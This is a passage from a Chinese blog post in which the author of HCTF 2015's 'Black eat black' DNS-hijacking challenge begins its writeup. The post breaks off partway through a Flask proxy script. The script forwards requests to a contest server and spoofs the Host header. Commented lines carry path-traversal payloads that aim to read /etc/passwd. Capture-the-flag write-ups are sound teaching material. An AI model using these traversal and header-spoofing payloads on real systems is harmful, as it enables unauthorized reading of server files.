 title: HCTF之Black-Eat-Black总结
date: 2015-12-08 14:49:13
tags: CTF
categories: H-blog
---
![HCTF](http://7xscw6.com1.z0.glb.clouddn.com/hexo-hctf.png)



这次HCTF，我负责黑吃黑这题的出题和运维，最终只有六星一个队日穿了该题。

---
**题目名称**：Black eat black(300不足，200有余)
**题目描述**：使用该DNS(180.153.47.182)后，你会被劫持哦～
**分值**：300
**开题金币**：300
**奖励金币**：400

---

## writeup

先给出writeup脚本

```python
 # writeup.py
 #!/usr/bin/env python
#-*- coding:utf-8 -*-

from flask import Flask
from flask import request
from flask import Response
import time
from werkzeug.routing import BaseConverter
import requests

class MyanyConverter(BaseConverter):
	weight = 200
	regex = '.*'
	
app = Flask(__name__, static_folder = "nononono")
app.url_map.converters['myany'] = MyanyConverter

@app.route('/<myany:url>', methods = ['GET', 'POST'])
def index(url):
	print "---------------------------------------------------"
	req_url = "http://120.55.181.136/"+url
	# req_url = "http://120.55.181.136/username/uploadfile/....//....//....//....//....//....//....//etc/passwd"
	print req_url
	header = {}
	data = {}
	my_file = {}
	for x in request.headers:
		if x[1] == '':
                        continue
                if x[0] == 'Host':
                	header['Host'] = "127.0.0.1:4444"
                	# header['Host'] = "127.0.0.1:4444/username/uploadfile/../../../../../../etc/passwd"
                	continue
		header[x[0]] = x[1]
	#print header
	if request.method == 'POST':
		for a, b in request.form.items():
```
